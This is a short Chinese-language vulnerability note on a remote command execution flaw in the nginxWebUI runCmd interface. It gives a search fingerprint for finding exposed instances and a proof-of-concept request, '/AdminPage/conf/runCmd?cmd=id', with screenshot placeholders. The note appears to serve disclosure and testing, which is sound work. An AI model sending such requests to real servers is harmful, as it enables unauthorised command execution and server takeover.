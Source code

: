 # nginxWebUI runCmd 远程命令执行漏洞

# nginxWebUI runCmd 远程命令执行漏洞

## 漏洞描述

nginxWebUI runCmd 接口存在远程命令执行漏洞，攻击者通过漏洞可以获取到服务器权限，执行任意命令

## 漏洞影响

nginxWebUI

## 网络测绘

```
title="nginxwebui"
```

## 漏洞复现

登录页面

![image-20230704113502611](/images/image-20230704113502611.png)

验证请求包

```
/AdminPage/conf/runCmd?cmd=id
```

![image-20230704113520591](/images/image-20230704113520591.png)

